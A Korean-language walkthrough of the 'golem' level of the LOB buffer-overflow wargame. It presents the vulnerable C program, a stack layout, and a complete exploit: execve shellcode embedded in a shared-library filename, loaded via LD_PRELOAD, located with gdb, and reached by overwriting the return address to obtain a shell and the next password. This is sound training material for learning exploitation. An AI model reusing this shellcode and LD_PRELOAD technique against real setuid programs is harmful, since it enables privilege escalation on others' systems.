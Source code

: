 ============================================================================================================
[lob] skeleton
============================================================================================================


source code
============================================================================================================

해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

    /*
        The Lord of the BOF : The Fellowship of the BOF
        - golem
        - stack destroyer
    */

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // stack destroyer!
        memset(buffer, 0, 44);
        memset(buffer+48, 0, 0xbfffffff - (int)(buffer+48));
    }



Buffer Overflow
============================================================================================================

스택에 다음과 같이 들어가게 됩니다.

======= =========
LOW     
------- ---------
Buffer  (40byte)
SFP     (4byte)
RET     (4byte)
argc    (4byte)
argv    (4byte)
------- ---------
HIGH    
======= =========

버퍼오버플로우가 일어나는 지점을 확인합니다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행해야 합니다.

.. code-block:: console

    $ ./golem `python -c 'print "a"*47'`
    stack is still your friend.
    
    $ ./golem `python -c 'print "a"*47+"\xbf"'`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault



EXPLOIT
============================================================================================================

쉘코드 파일명을 공유 라이브러리로 등록
-----------------------------------------------------------------------------

기존에 사용한 쉘코드에는 \x2f 값이 있기 때문에 정상적으로 쉘코드가 동작하지 않습니다.

\x2f가 없는 쉘코드로 파일명을 생성하도록 합니다.

공유 라이브러리 영역에 쉘코드로 파일명을 등록합니다.

.. code-block:: console
    
    $ gcc -fPIC -shared -o `python -c 'print "\x90"*40+"\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'` golem.c

    $ export LD_PRELOAD=./`python -c 'print "\x90"*40+"\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`

gdb를 통해 공유 라이브러리에 올라간 쉘코드 주소를 확인합니다.

.. code-block:: console

    (gdb) b* main
    Breakpoint 1 at 0x8048500

    (gdb) r
    Starting program: /home/skeleton/golem2
    /bin/bash: /home/troll/.bashrc: Permission denied

    Breakpoint 1, 0x8048470 in main ()
    (gdb) x/100x $esp-3000

    ==========================================================================
    0xbfffeef4:     0x000005f0      0x0000004d      0x0000028d      0x00000319
    0xbfffef04:     0x000005a7      0x00000514      0x0000020c      0x00000659
    0xbfffef14:     0x000002a4      0x0000003f      0x00000311      0x000001fe
    0xbfffef24:     0x00000000      0x0000050f      0x00000446      0x00000000
    0xbfffef34:     0x00000500      0x0000054e      0x000006d6      0x0000068b
    0xbfffef44:     0x00000000      0x0000037d      0x00000000      0x0000038c
    0xbfffef54:     0x00000000      0x000000cb      0x0000059b      0x00000707
    0xbfffef64:     0x00000557      0x00000000      0x00000564      0x00000000
    0xbfffef74:     0x00000301      0x0000048e      0x00000550      0x00000000
    0xbfffef84:     0x0000067f      0x00000000      0x00000000      0x00000715
    0xbfffef94:     0x000005e9      0x0000060d      0x00000529      0x000003a4

    (중략)
    0xbffff604:     0xbffff64c      0x00000002      0x40023fd0      0x40013c00
    0xbffff614:     0x4000ba15      0x40013868      0x40000814      0x400041b0
    0xbffff624:     0x00000001      0xbffff634      0x40001528      0x000002c8
    0xbffff634:     0x00000000      0x080482d0      0x00000000      0x00000001
    0xbffff644:     0x40000824      0xbffff654      0x400075bb      0x40017000
    0xbffff654:     0x00002fb2      0x40013868      0xbffff7e4      0x4000380e
    0xbffff664:     0x40014428      0x90902f2e      0x90909090      0x90909090
    0xbffff674:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbffff684:     0x90909090      0x90909090      0x90909090      0xc0319090
    0xbffff694:     0x1111ba50      0xc2811111      0x57621e1e      0x1111ba52
    0xbffff6a4:     0xc2811111      0x5d58511e      0x50e38952      0x31e18953
    ==========================================================================


RET 주소를 공유 라이브러리 로드 주소로 변경하여 공격 진행
-----------------------------------------------------------------------------

공유 라이브러리 주소 : nop(40 byte) + shellcode (39 byte) 

argv[1] : nop(44 byte) + 공유 라이브러리 주소

.. code-block:: console

    $ ./golem `python -c 'print "\x90"*44+"\x82\xf6\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
    bash$ whoami

    golem
    bash$ my-pass
    euid = 511
    cup of coffee


